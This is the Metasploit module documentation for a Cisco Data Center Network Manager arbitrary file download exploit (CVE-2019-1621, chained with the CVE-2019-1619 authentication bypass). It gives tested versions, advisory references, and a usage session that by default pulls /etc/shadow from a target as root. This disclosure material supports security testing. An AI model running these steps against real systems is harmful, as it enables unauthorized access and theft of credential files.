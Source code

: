 ## Introduction

Cisco Data Center Network Manager exposes a servlet to download files on /fm/downloadServlet.
An authenticated user can abuse this servlet to download arbitrary files as root by specifying
the full path of the file (aka CVE-2019-1621).

This module was tested on the DCNM Linux virtual appliance 10.4(2), 11.0(1) and 11.1(1), and should
work on a few versions below 10.4(2). Only version 11.0(1) requires authentication to exploit
(see References to understand why), on the other versions it abuses CVE-2019-1619 to bypass authentication.


## Author and discoverer

Pedro Ribeiro (pedrib@gmail.com) from Agile Information Security


## References

https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190626-dcnm-bypass
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190626-dcnm-file-dwnld
https://raw.githubusercontent.com/pedrib/PoC/master/exploits/metasploit/cisco_dcnm_download.rb
https://seclists.org/fulldisclosure/2019/Jul/7


## Usage

Setup RHOST, pick the file to download (FILENAME, default is /etc/shadow) and enjoy!

```
msf5 exploit(multi/http/cisco_dcnm_upload_2019) > use auxiliary/admin/cisco/cisco_dcnm_download

msf5 auxiliary(admin/cisco/cisco_dcnm_download) > set rhost 10.75.1.40
rhost => 10.75.1.40
msf5 auxiliary(admin/cisco/cisco_dcnm_download) > run

[+] 10.75.1.40:443 - Detected DCNM 10.4(2)
[*] 10.75.1.40:443 - No authentication required, ready to exploit!
[+] 10.75.1.40:443 - Got sysTime value 1567081446000
[+] 10.75.1.40:443 - Successfully authenticated our JSESSIONID cookie
[+] File saved in: /home/john/.msf4/loot/20190829122407_default_10.75.1.40_ciscoDCNM.http_855907.bin
[*] Auxiliary module execution completed
```
